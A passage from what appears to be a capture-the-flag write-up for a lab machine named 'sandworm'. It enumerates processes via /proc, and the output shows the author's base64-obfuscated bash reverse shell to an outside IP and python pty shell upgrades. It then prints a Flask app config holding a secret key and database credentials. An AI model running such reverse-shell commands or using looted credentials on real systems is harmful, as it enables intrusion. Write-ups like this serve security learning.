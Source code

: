 ```

atlas@sandworm:/proc$ ls | while read d; do cat "$d/cmdline" 2>/dev/null && echo " [$d]"; done
/usr/local/bin/firejail--profile=webappflaskrun [1]
/usr/bin/python3/usr/local/sbin/flaskrun [20]
gpg-agent--homedir/home/atlas/.gnupg--use-standard-socket--daemon [20089]
scdaemon--multi-server [20091]
/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash [52380]
bash [52383]
bash-i [52384]
python3-cimport pty; pty.spawn("/bin/bash") [52405]
/bin/bash [52406]
python3 [52412]
/bin/sh-cecho YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK | base64 -d | bash [52429]
bash [52432]
bash-i [52433]
python3-cimport pty;pty.spawn("/bin/bash") [52439]
/bin/bash [52440]
/bin/bash [53338]
catself/cmdline [self]
catthread-self/cmdline [thread-self]

```

This output still has nulls where spaces should be, so they appear missing. Still I can see what’s going on. All I can see is processes running as atlas (from the jail). There’s the `firejail` jail with the `webappflaskrun` profile, Flask running presumably the webapp (I can verify that by going into `20/cwd` and seeing it matches `/var/www/html/SSA`), the `gpg-agent`, and then mostly just stuff I created exploiting the box.

#### Web

The website lives in `var/www/html/SSA/SSA`:

```

atlas@sandworm:/var/www/html/SSA/SSA$ ls
app.py       models.py    src     submissions
__init__.py  __pycache__  static  templates

```

There’s not much useful in the application, though I’ll go through it in [Beyond Root](#exploring-flask) just to understand it. However, in `__init__.py`, there’s a database connection string used by the Python ORM SQLAlchemy:

```

from flask import Flask
from flask_login import LoginManager
from flask_sqlalchemy import SQLAlchemy

db = SQLAlchemy()

def create_app():
    app = Flask(__name__)

    app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21'
    app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'

    db.init_app(app)

    # blueprint for non-auth parts of app
    from .app import main as main_blueprint
    app.register_blueprint(main_blueprint)

    login_manager = LoginManager()
```
